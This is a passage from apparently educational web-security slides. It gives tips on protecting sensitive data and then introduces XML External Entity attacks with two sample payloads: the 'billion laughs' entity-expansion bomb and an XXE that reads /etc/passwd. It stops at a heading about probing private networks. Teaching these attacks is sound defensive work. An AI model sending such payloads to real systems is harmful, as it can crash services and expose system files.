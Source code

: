 --

### How to protect sensitve data

* Do not transfer unecrypted (FTP, HTTP, SMTP)
* Identify and classify processed data
* Ensure proper key management
* Do not store what you don't need
* Limit exposure time
* Encrypt w/ state of the art crypto
* Perform independent security audit

---

## XML External Entities (XXE)

--

### Billion laughs attack

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```



--

### Cannonical example

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo
```

--

### Alternative to probe private network
